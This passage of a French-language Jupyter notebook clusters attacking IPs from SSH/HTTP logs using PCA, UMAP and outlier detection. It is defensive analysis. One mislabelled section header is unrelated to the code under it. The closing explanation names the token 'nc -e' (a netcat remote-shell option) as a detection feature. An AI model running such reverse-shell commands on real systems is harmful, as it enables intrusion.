

In [84]:
fig, axes = plt.subplots(1, 2, figsize=(14, 6))

if all_scores_df.height > 0:
    category_counts = all_scores_df.group_by("category").agg(pl.len().alias("count")).sort("count", descending=True)

    # Pie chart
    axes[0].pie(category_counts.get_column("count").to_list(),
                labels=category_counts.get_column("category").to_list(),
                autopct='%1.1f%%',
                startangle=90,
                colors=['#3498db', '#e74c3c', '#e67e22', '#27ae60', '#9b59b6'])
    axes[0].set_title('Répartition des catégories d\'attaque', fontsize=14, fontweight='bold')

    # Bar chart
    axes[1].barh(range(len(category_counts)), category_counts.get_column("count").to_list(),
                 color=['#3498db', '#e74c3c', '#e67e22', '#27ae60', '#9b59b6'],
                 edgecolor='black')
    axes[1].set_yticks(range(len(category_counts)))
    axes[1].set_yticklabels(category_counts.get_column("category").to_list(), fontsize=10)
    axes[1].set_xlabel('Nombre d\'occurrences')
    axes[1].set_title('Occurrences par catégorie', fontsize=14, fontweight='bold')
    axes[1].invert_yaxis()

    for i, v in enumerate(category_counts.get_column("count").to_list()):
        axes[1].text(v + category_counts.get_column("count").max() * 0.01, i, str(v), va='center', fontweight='bold')

    plt.tight_layout()
    show_plot(fig, "Graphique 6: Catégories d'attaque")
else:
    pass


In [85]:
# Compute SSH and HTTP request counts by IP
ssh_by_ip = (
    dfssh
    .group_by("SourceIp")
    .agg(pl.len().alias("count"))
    .sort("count", descending=True)
) if not dfssh.is_empty() else pl.DataFrame(schema={"SourceIp": str, "count": int})

http_by_ip = (
    dfhttp
    .group_by("SourceIp")
    .agg(pl.len().alias("count"))
    .sort("count", descending=True)
) if not dfhttp.is_empty() else pl.DataFrame(schema={"SourceIp": str, "count": int})

print(f"[INFO] SSH by IP: {ssh_by_ip.height} IPs | HTTP by IP: {http_by_ip.height} IPs")
ssh_by_ip.head(5)


[INFO] SSH by IP: 643 IPs | HTTP by IP: 217 IPs


SourceIp,count
str,u32
"""51.83.143.139""",7705
"""91.92.42.10""",2859
"""176.65.139.250""",2496
"""113.87.80.122""",1024
"""113.87.80.22""",738


---## 7. Domain fronting / DNS spoofing via TLS SNI

In [86]:
import numpy as np
from sklearn.decomposition import PCA
from sklearn.preprocessing import StandardScaler

print("[INFO] Calcul de l'ACP...")

# Créer une matrice de features pour chaque IP
features_by_ip = pl.DataFrame({
    "SourceIp": ssh_by_ip.get_column("SourceIp"),
    "ssh_attempts": ssh_by_ip.get_column("count"),
})

# Ajouter les features HTTP (avec alias pour les colonnes)
http_by_ip_renamed = http_by_ip.rename({"count": "http_requests"}) if http_by_ip.height > 0 else pl.DataFrame(schema={"SourceIp": str, "http_requests": int})
features_by_ip = features_by_ip.join(http_by_ip_renamed, on="SourceIp", how="left").fill_null(0)

# Ajouter le ratio SSH/HTTP
features_by_ip = features_by_ip.with_columns(
    (pl.col("ssh_attempts") / (pl.col("http_requests") + 1)).alias("ssh_http_ratio")
)

# Sélectionner les features numériques
feature_cols = ["ssh_attempts", "http_requests", "ssh_http_ratio"]
data_matrix = features_by_ip.select(feature_cols).to_numpy()

# Normalisation
scaler = StandardScaler()
data_normalized = scaler.fit_transform(data_matrix)

# ACP
pca = PCA(n_components=2)
X_pca = pca.fit_transform(data_normalized)

# Créer un DataFrame avec les composantes
pca_df = pl.DataFrame({
    "PC1": X_pca[:, 0],
    "PC2": X_pca[:, 1],
    "SourceIp": features_by_ip.get_column("SourceIp"),
    "ssh_attempts": features_by_ip.get_column("ssh_attempts"),
    "http_requests": features_by_ip.get_column("http_requests"),
    "ssh_http_ratio": features_by_ip.get_column("ssh_http_ratio"),
})

print(f"[INFO] ACP calculée sur {X_pca.shape[0]} points")
print(f"[INFO] Variance expliquée: PC1={pca.explained_variance_ratio_[0]:.2%}, PC2={pca.explained_variance_ratio_[1]:.2%}")
pca_df.head(10)


[INFO] Calcul de l'ACP...
[INFO] ACP calculée sur 643 points
[INFO] Variance expliquée: PC1=66.67%, PC2=33.33%


PC1,PC2,SourceIp,ssh_attempts,http_requests,ssh_http_ratio
f64,f64,str,u32,u32,f64
31.677262,0.168514,"""51.83.143.139""",7705,0,7705.0
11.658562,0.033196,"""91.92.42.10""",2859,0,2859.0
10.159018,0.023059,"""176.65.139.250""",2496,0,2496.0
4.078225,-0.018044,"""113.87.80.122""",1024,0,1024.0
2.896766,-0.026031,"""113.87.80.22""",738,0,738.0
1.574854,-0.034966,"""51.89.235.201""",418,0,418.0
1.393091,-0.036195,"""103.158.206.141""",374,0,374.0
1.157626,-0.037787,"""192.140.2.100""",317,0,317.0
0.686695,-0.04097,"""45.12.1.49""",203,0,203.0


---## 8. Analyse en Composantes Principales (ACP)L'ACP permet de visualiser la structure des flux SSH et HTTP selon plusieurs dimensions:- Fréquence des connexions- Ports utilisés- Heures d'activité- Types de commandes

In [87]:
print("[INFO] Préparation des données pour l'ACP...")

# Feature 1: Nombre de tentatives SSH par IP
ssh_by_ip = dfssh.get_column("SourceIp").value_counts() if not df_all.is_empty() else pl.DataFrame()

# Feature 2: Nombre de requêtes HTTP par IP
http_by_ip = dfhttp.get_column("SourceIp").value_counts() if not df_all.is_empty() else pl.DataFrame()

# Feature 3: Ports SSH utilisés
ssh_ports = (
    dfssh
    .select(pl.col("Command").str.split(" ").list.get(0).alias("port"))
    .group_by("port")
    .agg(pl.len().alias("count"))
) if not df_all.is_empty() else pl.DataFrame()

# Feature 4: Heures d'activité SSH
ssh_by_hour = (
    dfssh
    .with_columns(
        pl.col("DateTime").str.slice(11, 2).cast(int).alias("hour")
    )
    .group_by("hour")
    .agg(pl.len().alias("count"))
) if not df_all.is_empty() else pl.DataFrame()

# Feature 5: Heures d'activité HTTP
http_by_hour = (
    dfhttp
    .with_columns(
        pl.col("DateTime").str.slice(11, 2).cast(int).alias("hour")
    )
    .group_by("hour")
    .agg(pl.len().alias("count"))
) if not df_all.is_empty() else pl.DataFrame()

# Feature 6: Types de commandes SSH
ssh_command_types = (
    dfssh
    .select(pl.col("Command").str.split(" ").list.get(0).alias("cmd_type"))
    .group_by("cmd_type")
    .agg(pl.len().alias("count"))
) if not df_all.is_empty() else pl.DataFrame()

print("[INFO] Features calculées avec succès")


[INFO] Préparation des données pour l'ACP...
[INFO] Features calculées avec succès


In [88]:
import numpy as np
from sklearn.decomposition import PCA
from sklearn.preprocessing import StandardScaler

print("[INFO] Calcul de l'ACP...")

# Créer une matrice de features pour chaque IP
features_by_ip = pl.DataFrame({
    "SourceIp": ssh_by_ip.get_column("SourceIp"),
    "ssh_attempts": ssh_by_ip.get_column("count"),
})

# Ajouter les features HTTP (avec alias pour les colonnes)
http_by_ip_renamed = http_by_ip.rename({"count": "http_requests"}) if http_by_ip.height > 0 else pl.DataFrame(schema={"SourceIp": str, "http_requests": int})
features_by_ip = features_by_ip.join(http_by_ip_renamed, on="SourceIp", how="left").fill_null(0)

# Ajouter le ratio SSH/HTTP
features_by_ip = features_by_ip.with_columns(
    (pl.col("ssh_attempts") / (pl.col("http_requests") + 1)).alias("ssh_http_ratio")
)

# Sélectionner les features numériques
feature_cols = ["ssh_attempts", "http_requests", "ssh_http_ratio"]
data_matrix = features_by_ip.select(feature_cols).to_numpy()

# Normalisation
scaler = StandardScaler()
data_normalized = scaler.fit_transform(data_matrix)

# ACP
pca = PCA(n_components=2)
X_pca = pca.fit_transform(data_normalized)

# Créer un DataFrame avec les composantes
pca_df = pl.DataFrame({
    "PC1": X_pca[:, 0],
    "PC2": X_pca[:, 1],
    "SourceIp": features_by_ip.get_column("SourceIp"),
    "ssh_attempts": features_by_ip.get_column("ssh_attempts"),
    "http_requests": features_by_ip.get_column("http_requests"),
    "ssh_http_ratio": features_by_ip.get_column("ssh_http_ratio"),
})

print(f"[INFO] ACP calculée sur {X_pca.shape[0]} points")
print(f"[INFO] Variance expliquée: PC1={pca.explained_variance_ratio_[0]:.2%}, PC2={pca.explained_variance_ratio_[1]:.2%}")
pca_df.head(10)


[INFO] Calcul de l'ACP...
[INFO] ACP calculée sur 643 points
[INFO] Variance expliquée: PC1=66.67%, PC2=33.33%


PC1,PC2,SourceIp,ssh_attempts,http_requests,ssh_http_ratio
f64,f64,str,u32,u32,f64
-0.073404,-0.046108,"""101.126.53.14""",19,0,19.0
-0.131238,-0.046499,"""112.6.227.209""",5,0,5.0
-0.110583,-0.046359,"""190.151.130.5""",10,0,10.0
1.393091,-0.036195,"""103.158.206.141""",374,0,374.0
-0.131238,-0.046499,"""220.247.224.226""",5,0,5.0
-0.081666,-0.046164,"""171.231.181.160""",17,0,17.0
-0.110583,-0.046359,"""172.202.9.120""",10,0,10.0
-0.131238,-0.046499,"""43.156.91.222""",5,0,5.0
-0.1395,-0.046555,"""103.193.74.79""",3,0,3.0


** ACP - Scatter plot des composantes principales **




In [89]:
# Graphique 7: ACP Scatter plot
fig, ax = plt.subplots(figsize=(14, 10))

# Colorer par nombre de tentatives SSH
scatter = ax.scatter(
    pca_df.get_column("PC1").to_list(),
    pca_df.get_column("PC2").to_list(),
    c=pca_df.get_column("ssh_attempts").to_list(),
    cmap='hot',
    alpha=0.7,
    s=50
)

# Colorbar
cbar = plt.colorbar(scatter, ax=ax)
cbar.set_label('Nombre de tentatives SSH', fontsize=12)

# Annotation des points les plus actifs
top_ips = pca_df.sort("ssh_attempts", descending=True).head(10)

for i, row in enumerate(top_ips.iter_rows(named=True)):
    ax.annotate(
        row["SourceIp"][:12] + '...',
        (row["PC1"], row["PC2"]),
        fontsize=8,
        alpha=0.7,
        xytext=(5, 5),
        textcoords='offset points'
    )

ax.set_xlabel(f'PC1 ({pca.explained_variance_ratio_[0]:.1%} de variance)', fontsize=12)
ax.set_ylabel(f'PC2 ({pca.explained_variance_ratio_[1]:.1%} de variance)', fontsize=12)
ax.set_title('ACP des flux SSH/HTTP - Projection 2D', fontsize=14, fontweight='bold')
ax.axhline(y=0, color='k', linestyle='--', alpha=0.3)
ax.axvline(x=0, color='k', linestyle='--', alpha=0.3)
ax.grid(True, alpha=0.3)

plt.tight_layout()
show_plot(fig, "ACP - Scatter plot des composantes principales")


** ACP - Biplot des features **




In [90]:
# Graphique 8: Biplot ACP
fig, ax = plt.subplots(figsize=(14, 10))

# Tracer les points
ax.scatter(
    pca_df.get_column("PC1").to_list(),
    pca_df.get_column("PC2").to_list(),
    c=pca_df.get_column("http_requests").to_list(),
    cmap='cool',
    alpha=0.6,
    s=40
)

# Tracer les vecteurs de features
feature_names = feature_cols
loadings = pca.components_

scale = 1.5
for i, name in enumerate(feature_names):
    x = loadings[0, i] * scale
    y = loadings[1, i] * scale
    ax.arrow(0, 0, x, y, head_width=0.1, head_length=0.05, fc='red', ec='red', linewidth=2)
    ax.text(x * 1.1, y * 1.1, name, fontsize=10, color='red', fontweight='bold')

ax.set_xlabel(f'PC1 ({pca.explained_variance_ratio_[0]:.1%} de variance)', fontsize=12)
ax.set_ylabel(f'PC2 ({pca.explained_variance_ratio_[1]:.1%} de variance)', fontsize=12)
ax.set_title('Biplot ACP - Relations entre features et composantes', fontsize=14, fontweight='bold')
ax.axhline(y=0, color='k', linestyle='--', alpha=0.3)
ax.axvline(x=0, color='k', linestyle='--', alpha=0.3)
ax.grid(True, alpha=0.3)
ax.set_aspect('equal')

plt.tight_layout()
show_plot(fig, "ACP - Biplot des features")


## 10. Analyse UMAP des flux SSH/HTTP

Cette section reproduit la logique du script `analyse-beel-final3.py` pour appliquer UMAP sur les features par IP et visualiser les résultats.

/home/pouchou/.pyenv/versions/3.14.3/lib/python3.14/site-packages/umap/umap_.py:1952: UserWarning: n_jobs value 1 overridden to 1 by setting random_state. Use no seed for parallelism.
  warn(


** UMAP des flux SSH/HTTP **




[INFO] UMAP results saved to umap_results.csv


In [91]:
# UMAP analysis of SSH/HTTP flows
import umap
from sklearn.preprocessing import StandardScaler

# Feature extraction (reuse logic from earlier cells)
# SSH features
ssh_by_ip = (
    dfssh
    .group_by("SourceIp")
    .agg(pl.col("SourceIp").len().alias("ssh_attempts"))
    if not dfssh.is_empty()
    else pl.DataFrame(schema={"SourceIp": str, "ssh_attempts": int})
)
# HTTP features
http_by_ip = (
    dfhttp
    .group_by("SourceIp")
    .agg(pl.col("SourceIp").len().alias("http_requests"))
    if not dfhttp.is_empty()
    else pl.DataFrame(schema={"SourceIp": str, "http_requests": int})
)
# Combine
features = ssh_by_ip.join(http_by_ip, on="SourceIp", how="left").fill_null(0)
features = features.with_columns(
    ((pl.col("ssh_attempts") / (pl.col("http_requests") + 1)).alias("ssh_http_ratio"))
)

# Prepare data for UMAP
numeric_cols = [c for c, t in features.schema.items() if t in (pl.Int64, pl.Int32, pl.UInt64, pl.UInt32, pl.Float64, pl.Float32)]
data = features.select(numeric_cols).to_numpy()
scaler = StandardScaler()
data_norm = scaler.fit_transform(data)

reducer = umap.UMAP(n_neighbors=15, min_dist=0.1, n_components=2, random_state=42)
embedding = reducer.fit_transform(data_norm)

umap_df = pl.DataFrame({
    "UMAP1": embedding[:, 0],
    "UMAP2": embedding[:, 1],
    "SourceIp": features["SourceIp"],
    "ssh_attempts": features["ssh_attempts"],
    "http_requests": features["http_requests"],
    "ssh_http_ratio": features["ssh_http_ratio"],
})

# Scatter plot
fig, ax = plt.subplots(figsize=(12, 8))
scatter = ax.scatter(
    umap_df["UMAP1"], umap_df["UMAP2"],
    c=umap_df["ssh_attempts"].to_list(),
    cmap="viridis", alpha=0.7, edgecolor="k"
)
ax.set_xlabel("UMAP1")
ax.set_ylabel("UMAP2")
ax.set_title("UMAP – SSH/HTTP flux par IP")
plt.colorbar(scatter, ax=ax, label="ssh_attempts")
plt.tight_layout()
show_plot(fig, "UMAP des flux SSH/HTTP")

# Save results to CSV for further analysis
output_csv = Path("umap_results.csv")
umap_df.write_csv(output_csv)
print(f"[INFO] UMAP results saved to {output_csv}")

** ACP - Scree plot (variance expliquée) **




In [92]:
# Graphique 9: Scree plot ACP
fig, axes = plt.subplots(1, 2, figsize=(16, 6))

# Scree plot - variance expliquée par composante
n_components = len(pca.explained_variance_ratio_)
x = range(1, n_components + 1)

axes[0].bar(x, pca.explained_variance_ratio_, alpha=0.7, color='steelblue', edgecolor='black')
axes[0].plot(x, pca.explained_variance_ratio_, 'o-', color='red', linewidth=2, markersize=8)
axes[0].set_xlabel('Composante principale', fontsize=12)
axes[0].set_ylabel('Variance expliquée', fontsize=12)
axes[0].set_title('Scree plot - Variance expliquée par composante', fontsize=14, fontweight='bold')
axes[0].set_xticks(x)

for i, v in enumerate(pca.explained_variance_ratio_):
    axes[0].text(i + 1, v + 0.01, f'{v:.1%}', ha='center', fontweight='bold')

# Courbe cumulative
cumulative = np.cumsum(pca.explained_variance_ratio_)

axes[1].bar(x, pca.explained_variance_ratio_, alpha=0.5, color='steelblue', edgecolor='black')
axes[1].plot(x, cumulative, 's-', color='red', linewidth=2, markersize=8, label='Cumulative')
axes[1].axhline(y=0.8, color='green', linestyle='--', alpha=0.5, label='80% threshold')
axes[1].axhline(y=0.95, color='orange', linestyle='--', alpha=0.5, label='95% threshold')
axes[1].set_xlabel('Composante principale', fontsize=12)
axes[1].set_ylabel('Variance expliquée cumulative', fontsize=12)
axes[1].set_title('Scree plot - Variance expliquée cumulative', fontsize=14, fontweight='bold')
axes[1].set_xticks(x)
axes[1].legend()
axes[1].grid(True, alpha=0.3)

plt.tight_layout()
show_plot(fig, "ACP - Scree plot (variance expliquée)")


--- Analyse détaillée des IP anomalues ---

Cette section explique pourquoi les adresses IP identifiées par le consensus **Isolation Forest ∩ Local Outlier Factor** sont considérées comme anormales. Les raisons principales incluent :

1. **Volume de commandes** très élevé (ex. `91.92.42.10` avec 2859 cmds, `176.65.139.250` avec 2496 cmds) – dépasse largement la moyenne.
2. **Activité nocturne exclusive** – certaines IP n’émettent des requêtes qu’entre 00 h et 06 h ou après 22 h (`34.73.231.113`, `34.138.140.242`). Le modèle apprend que la plupart des sources légitimes ont une distribution plus homogène sur la journée.
3. **Ratio SSH/HTTP déséquilibré** – un grand nombre de tentatives SSH sans trafic HTTP entraîne un `ssh_http_ratio` très élevé, typique d’un tunnel ou d’un brute‑force.
4. **Profil de tokens rares** – la fréquence de certains tokens (ex. `nc -e`, `base64`) apparaît seulement pour ces adresses, ce qui les éloigne du nuage de points « normal ».
5. **Volume de données (bytes)** – lorsque la colonne `Bytes` est disponible, les IP avec un total d’octets anormalement élevé sont également marquées.

